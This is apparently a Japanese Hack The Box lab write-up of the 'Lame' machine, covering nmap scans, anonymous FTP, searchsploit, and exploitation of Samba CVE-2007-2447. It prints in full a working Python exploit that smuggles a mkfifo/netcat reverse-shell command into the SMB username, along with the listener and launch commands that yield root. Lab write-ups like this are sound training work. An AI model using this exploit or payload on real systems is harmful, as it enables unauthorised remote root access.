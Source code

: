 # Lame

* サーバー接続確認

```bash
ping 10.10.10.3
PING 10.10.10.3 (10.10.10.3) 56(84) bytes of data.
64 bytes from 10.10.10.3: icmp_seq=1 ttl=63 time=677 ms
64 bytes from 10.10.10.3: icmp_seq=2 ttl=63 time=189 ms
```

* nmapコマンド実行

```bash
$ nmap -Pn 10.10.10.3
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-05 15:01 JST
Nmap scan report for 10.10.10.3
Host is up (0.19s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

* -Pnオプション：　Treate all hosts as online

* ftpでanonymousログインしてみる(パスワードなし)

  ```bash
  ┌──(kali㉿kali)-[~]
  └─$ ftp 10.10.10.3                                                          
  Connected to 10.10.10.3.
  220 (vsFTPd 2.3.4)
  Name (10.10.10.3:kali): anonymous
  331 Please specify the password.
  Password: 
  230 Login successful.
  Remote system type is UNIX.
  Using binary mode to transfer files.
  
  ```

​		→ログイン成功

* sshコマンド(root)

  ```bash
  ssh root@10.10.10.3
  Unable to negotiate with 10.10.10.3 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
  ```

* 公開鍵をftpで送付したい

  →わからずここでwriteupへ（結局fptはanonymousでログインできるもののftpサーバーのカレントディレクトリに何もなくかつディレクトリ移動もできないため脆弱性がなかった）

以降Writeupに従って実施

* [参考サイト-metasploit使っている](https://infosecwriteups.com/htb-lame-writeup-e47100aea88b)

* [参考サイト-metasploit使っていない](https://medium.com/@nmappn/lame-hack-the-box-without-metasploit-1b3a138f9206)

* nmap実施

  ```bash
  sudo nmap -sC -sV -p-  10.10.10.3 
  
  Not shown: 996 filtered tcp ports (no-response)
  PORT     STATE SERVICE     VERSION
  21/tcp   open  ftp         vsftpd 2.3.4
  |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
  | ftp-syst: 
  |   STAT: 
  | FTP server status:
  |      Connected to 10.10.14.5
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      vsFTPd 2.3.4 - secure, fast, stable
  |_End of status
  22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
  | ssh-hostkey: 
  |   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
  |_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
  139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
  3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  
  Host script results:
  | smb-security-mode: 
  |   account_used: <blank>
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  |_smb2-time: Protocol negotiation failed (SMB2)
  | smb-os-discovery: 
  |   OS: Unix (Samba 3.0.20-Debian)
  |   Computer name: lame
  |   NetBIOS computer name: 
  |   Domain name: hackthebox.gr
  |   FQDN: lame.hackthebox.gr
  |_  System time: 2022-07-05T05:19:17-04:00
  |_clock-skew: mean: 1h58m17s, deviation: 2h49m43s, median: -1m43s
  
  
  
  ```
  
  * -sCオプション：--script=defaultと同様のオプション。defaultはNSEスクリプトを選択せずに行うスキャン
  * -sVオプション：サービスバージョンスキャン
  * -p-オプション：1024以降のポートも検索する

* Sambaの脆弱性確認

  ```
  searchsploit Samba 3.0.20
  ----------------------------------------------------------------------- ---------------------------------
   Exploit Title                                                          |  Path
  ------------------------------------------------------------------------ ---------------------------------
  Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                  | multiple/remote/10095.txt
  Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Me | unix/remote/16320.rb
  Samba < 3.0.20 - Remote Heap Overflow                                   | linux/remote/7701.txt
  Samba < 3.0.20 - Remote Heap Overflow                                   | linux/remote/7701.txt
  Samba < 3.6.2 (x86) - Denial of Service (PoC)                           | linux_x86/dos/36741.py
  ------------------------------------------------------------------------ ---------------------------------
  Shellcodes: No Results
  
  ```

  * Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution とはどのような脆弱性か
    * [参考サイト](https://amriunix.com/post/cve-2007-2447-samba-usermap-script/)
    * CVE-2007-2447
    * リモートコマンドインジェクション
    * ユーザネームにshell meta charactersを含む場合、任意のコマンドを実行できてしまう脆弱性

* pythonコードがあるので実行を試す

  * [サンプルコード](https://github.com/amriunix/CVE-2007-2447)

  * ディレクトリの作成

    ```bash
    mkdir Documents/HTB
    mkdir Documents/HTB/Lame
    ```

  * pyenvのインストール（説明は割愛）

    ```bash
    ┌──(kali㉿kali)-[/home]
    └─$ pyenv -v                                                                                              
    pyenv 2.3.2-1-g207f33fc
    
    ┌──(kali㉿kali)-[~/Documents/HTB/Lame]
    └─$ pyenv local 3.8.5                                                                
    
    ┌──(kali㉿kali)-[~/Documents/HTB/Lame]
    └─$ pyenv versions                                                                   
      system
    * 3.8.5 (set by /home/kali/Documents/HTB/Lame/.python-version)
    ```

  * pypoetryのインストール（説明は割愛）

    ```bash
    ┌──(kali㉿kali)-[~/Documents/HTB/Lame]
    └─$ poetry init
    └─$ poetry add pysmb
    ```
  
  * pythonコードのclone
  
    ```bash
    git clone https://github.com/amriunix/CVE-2007-2447.git 
    poetry shell 
    cd CVE-2007-2447/
    
    ```
  
  * usermap_script.py
  
    ```python
    import sys
    from smb.SMBConnection import SMBConnection
    
    def exploit(rhost, rport, lhost, lport):
            payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago'
            username = "/=`nohup " + payload + "`"
            conn = SMBConnection(username, "", "", "")
            try:
                conn.connect(rhost, int(rport), timeout=1)
            except:
                print("[+] Payload was sent - check netcat !")
    
    if __name__ == '__main__':
        print("[*] CVE-2007-2447 - Samba usermap script")
        if len(sys.argv) != 5:
            print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
        else:
            print("[+] Connecting !")
            rhost = sys.argv[1]
            rport = sys.argv[2]
            lhost = sys.argv[3]
            lport = sys.argv[4]
            exploit(rhost, rport, lhost, lport)
    ```
  
    * mkfifoコマンド：[名前付きパイプ](https://qiita.com/richmikan@github/items/bb660a58690ac01ec295)
    * nc lhost lport /bin/sh をしている

* usermap_script.pyでLHOSTに対してリバースシェルを実行している。

  * タブ1つ目

    ```bash
    # 4444ポートで待ち受けを実施する
    nc -lvp 4444
    ```

  * タブ2つ目

    ```bash
    ┌──(lame-pB_69G5l-py3.8)(kali㉿kali)-[~/Documents/HTB/Lame/CVE-2007-2447]
    └─$ python usermap_script.py 10.10.10.3 139 10.10.14.5 4444        
    [*] CVE-2007-2447 - Samba usermap script
    [+] Connecting !
    [+] Payload was sent - check netcat !
    
    ```

    これでroot.txtとuser.txtの取得ができる。rootでのリバースシェルだったため。

## 所感

* nmapは、適切にオプションを付けて実行すること。-sVと-p-はつけるようにしたい。

* searchsploitは、OSCPでも禁止されていなさそうなので積極的に使っていきたい。まずは脆弱性を見つけられるかどうか。そこが大事なポイントだと感じた。

* metasploitを使わずにPoCをインストールして実行できたのが良かった。pythonだったからという点が多分にあるので、その他言語でもPoC実行できるように環境構築手順をまとめておきたい。

  
